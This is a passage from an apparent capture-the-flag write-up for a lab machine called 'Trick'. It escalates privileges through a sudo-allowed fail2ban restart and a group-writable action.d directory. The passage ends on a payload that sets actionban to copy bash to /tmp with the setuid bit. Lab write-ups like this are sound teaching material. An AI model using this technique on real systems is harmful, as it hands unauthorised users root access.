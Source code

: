 now we can login and get the user flag

## PRIVELEGE ESCALATION

Checking if we can run any binary as root

```jsx
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

We can google fail2ban lpe and got more information about this

### What is fail2ban

Fail2Ban is a security program that is designed to prevent brute force attacks. To do this, Fail2Ban scans log files like **/var/log/auth.log** and bans IP addresses conducting too many failed login attempts. 

### Checking for requirements

To exploit fail2ban we must a write permission over iptable config file

```jsx
michael@trick:/etc/fail2ban$ ls -al
total 76
drwxr-xr-x   6 root root      4096 Jul  5 11:48 .
drwxr-xr-x 126 root root     12288 Jul  5 07:06 ..
drwxrwx---   2 root security  4096 Jul  5 11:48 action.d
-rw-r--r--   1 root root      2334 Jul  5 11:48 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jul  5 11:48 fail2ban.d
drwxr-xr-x   3 root root      4096 Jul  5 11:48 filter.d
-rw-r--r--   1 root root     22908 Jul  5 11:48 jail.conf
drwxr-xr-x   2 root root      4096 Jul  5 11:48 jail.d
-rw-r--r--   1 root root       645 Jul  5 11:48 paths-arch.conf
-rw-r--r--   1 root root      2827 Jul  5 11:48 paths-common.conf
-rw-r--r--   1 root root       573 Jul  5 11:48 paths-debian.conf
-rw-r--r--   1 root root       738 Jul  5 11:48 paths-opensuse.conf
```

Since we are in the security group we have the permisson over the action.d directory we can change the iptables-multiport.conf file with our modified file.

### Exploitation

We can set the actiobasn varibale as 

```jsx
actionban = cp /bin/bash /tmp && chmod 4755 /tmp/bash
```
